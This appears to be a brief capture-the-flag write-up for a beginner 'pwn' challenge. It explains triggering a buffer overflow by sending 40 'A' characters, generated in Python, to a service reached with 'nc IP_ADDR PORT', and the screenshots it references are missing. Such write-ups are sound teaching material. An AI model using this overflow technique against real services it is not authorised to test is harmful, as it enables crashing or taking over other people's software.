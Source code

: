 ```yaml
---
title: Getting started
tags:
  - CTF
  - Pwn
---
```

![](Pasted%20image%2020241013140157.png)

So what we have to do here is to create a buffer overflow by inputing `8 * 5 = 40` A characters:

```python
# Start an interactive python terminal and execute the following
'A' * 40
```

Do `nc IP_ADDR PORT`:

![](Pasted%20image%2020241013140400.png)